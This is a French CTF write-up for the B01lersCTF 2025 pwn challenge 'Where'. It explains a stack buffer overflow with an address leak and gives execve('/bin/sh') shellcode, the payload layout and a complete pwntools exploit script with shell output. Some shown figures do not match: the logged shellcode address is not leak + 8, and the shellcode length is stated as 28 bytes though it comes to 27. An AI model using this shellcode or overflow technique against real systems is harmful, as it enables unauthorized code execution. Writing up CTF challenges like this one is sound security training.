 ```yaml
---
title: "B01lersCTF 2025 : Where | Pwn"
date: 2025-04-22
draft: false
categories: ["Pwn"]
ctf: "B01lersCTF 2025"
challenge: "Where"
author: "Reyko"
---
```



# Challenge : where

### Énoncé 

> WHERE should the Little Einsteins go on their next adventure?


**Fichiers fournis :**
- `chal` : binaire ELF 64‑bits LSB, x86‑64, non PIE, NX désactivé, pile exécutable.
- `flag.txt` : présent sur le serveur (le fichier local contient un faux flag).

### 1. Analyse statique

```bash
$ file chal
chal: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), not stripped
$ checksec --file=chal
    Arch:      amd64-64-little
    NX:        disabled
    PIE:       No PIE
    Canary:    absent
    RWX:       Has RWX segments
````

- Le binaire n’a pas de **NX** (pile exécutable) et n’est pas en **PIE** (adresses de code fixes).

- Dans `main`, on repère deux buffers sur la pile :

    ```c
    char local_30[8];        // buffer de 8 octets
    char local_28[32];       // buffer de 32 octets
    ```

- Le code exécute ensuite :

    ```c
    setup();
    puts("I have put a ramjet on the little einstein's rocket ship");
    puts("However, I do not know WHERE to go on the next adventure!");
    printf("Quincy says somewhere around here might be fun... %p\n", local_30);
    fgets(local_28, 0x30, stdin);
    return 0;
    ```

- La lecture `fgets(local_28, 0x30, stdin)` est vulnérable : elle peut lire jusqu’à 47 octets utiles dans un buffer de 32 octets, suivi d’un `\0`.

    - **32 octets** → `local_28`

    - **+ 8 octets** → saved RBP

    - **+ 7 octets** → début de saved RIP (8ᵉ octet de RIP reste 0x00 en little‑endian)


### 2. Fuite d’adresse

Le programme affiche l’adresse de `local_30` via :

```c
printf("Quincy says somewhere around here might be fun... %p\n", local_30);
```

Exemple de sortie :

```
Quincy says somewhere around here might be fun... 0x7ffd1234abcd
```

- **addr_leak** = 0x7ffd1234abcd (adresse de `local_30`)
    
- Le buffer `local_28` se trouve **8 octets** plus haut sur la pile :

```
addr_shellcode = addr_leak + 0x08
```


### 3. Shellcode

Pour tenir dans les **32 octets** de `local_28`, on écrit un shellcode de **28 bytes** :

```asm
; xor rax,rax
48 31 c0
; xor rsi,rsi
48 31 f6
; movabs rbx, 0x0068732f6e69622f   ; "/bin/sh\0"
48 bb 2f 62 69 6e 2f 73 68 00
; push rbx                         ; empile "/bin/sh\0"
53
; mov rdi, rsp                     ; rdi → "/bin/sh"
48 89 e7
; xor rdx, rdx                     ; rdx = 0
48 31 d2
; mov al,0x3b                      ; syscall execve
b0 3b
; syscall                          ; appel système
0f 05
```

En Python/Pwntools :

```python
sc  =  b"\x48\x31\xc0"                             # xor rax,rax
sc += b"\x48\x31\xf6"                             # xor rsi,rsi
sc += b"\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00" # movabs rbx,"/bin/sh\0"
sc += b"\x53"                                     # push rbx
sc += b"\x48\x89\xe7"                             # mov rdi,rsp
sc += b"\x48\x31\xd2"                             # xor rdx,rdx
sc += b"\xb0\x3b"                                 # mov al,0x3b
sc += b"\x0f\x05"                                 # syscall
assert len(sc) <= 32
```

---

### 4. Construction du payload

1. **Shellcode** (≤ 32 bytes)
   
2. **NOP‑sled** (`0x90`) pour remplir jusqu’à 32 bytes :

```python
b"\x90" * (32 - len(sc))
```

3. **8 octets** de padding pour écraser saved RBP : `b"A" * 8`

4. **7 octets** pour écraser saved RIP :

```python
 p64(addr_shellcode)[:7]
```

(le 8ᵉ octet reste 0x00 en little‑endian)


5. **Total** : `32 + 8 + 7 = 47` bytes envoyés, puis `fgets` écrit un `\0` en 48ᵉ position.

### 5. Solve

solve.py : 

```python
#!/usr/bin/env python3
from pwn import *

context(arch='amd64', os='linux', log_level='info')

# Connexion SSL
p = remote('where.harkonnen.b01lersc.tf', 8443, ssl=True)

# 1) On lit jusqu'à "fun... " et on extrait le leak
p.recvuntil(b'fun... ')
leak = int(p.recvline().strip(), 16)
log.info(f"stack leak = {hex(leak)}")

# 2) Calcul de l'adresse de shellcode
addr_shell = leak + 8
log.info(f"shellcode @ {hex(addr_shell)}")

# 3) Shellcode minimal sc  
sc  =  b"\x48\x31\xc0"
sc += b"\x48\x31\xf6"
sc += b"\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00"
sc += b"\x53"
sc += b"\x48\x89\xe7"
sc += b"\x48\x31\xd2"
sc += b"\xb0\x3b"
sc += b"\x0f\x05"
assert len(sc) <= 32

# 4) Construction du payload
payload  = sc
payload += b"\x90" * (32 - len(sc))   # NOP‑sled
payload += b"A" * 8                     # saved RBP
payload += p64(addr_shell)[:7]           # saved RIP (7 octets)

# 5) Envoi brut et passage en mode interactif
p.send(payload)
p.interactive()
```

---

### 6. Flag

```bash
$ python3 solve.py
[*] Opening connection to where.harkonnen.b01lersc.tf on port 8443
[*] stack leak = 0x7ffd1234abcd
[*] shellcode @ 0x7ffd1234abe5
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ cat flag.txt
bctf{where_in_the_universe_are_they_6ba1f9d3}
```
